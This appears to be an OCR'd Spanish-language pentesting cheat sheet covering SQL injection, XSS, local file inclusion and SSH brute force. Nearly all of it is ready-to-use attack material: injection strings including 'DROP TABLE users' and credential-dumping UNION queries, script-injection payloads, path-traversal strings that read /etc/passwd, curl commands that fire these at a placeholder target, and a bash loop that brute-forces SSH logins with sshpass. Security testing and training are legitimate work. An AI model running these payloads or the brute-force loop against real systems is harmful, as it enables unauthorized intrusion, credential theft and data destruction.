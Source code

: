 ### **🚨 DETECCIÓN DE VULNERABILIDADES**

#### **Inyección SQL**
```bash
# Payloads básicos
echo "' OR '1'='1"
echo "'; DROP TABLE users; --"
echo "' UNION SELECT username,password FROM users --"

# Test manual con curl
curl -d "username=' OR '1'='1&password=test" http://target.com/login
```

#### **Cross-Site Scripting (XSS)**
```bash
# Payloads básicos
echo "<script>alert('XSS')</script>"
echo "<img src=x onerror=alert('XSS')>"
echo "<svg onload=alert('XSS')>"

# Test en parámetros URL
curl "http://target.com/search?q=<script>alert('XSS')</script>"
```

#### **Local File Inclusion (LFI)**
```bash
# Payloads comunes
echo "../../../etc/passwd"
echo "....//....//etc/passwd"
echo "..%2f..%2f..%2fetc%2fpasswd"

# Test con curl
curl "http://target.com/page.php?file=../../../etc/passwd"
```

### **🔐 ANÁLISIS DE AUTENTICACIÓN**

#### **Fuerza Bruta SSH**
```bash
# Lista de usuarios comunes
echo -e "root\nadmin\nuser\ntest\nguest" > users.txt

# Lista de contraseñas comunes
echo -e "password\n123456\nadmin\nroot\ntest" > passwords.txt

# Test manual
for user in $(cat users.txt); do
    for pass in $(cat passwords.txt); do
        sshpass -p "$pass" ssh -o ConnectTimeout=5 "$user@target" exit 2>/dev/null && echo "FOUND: $user:$pass"
    done
done
```
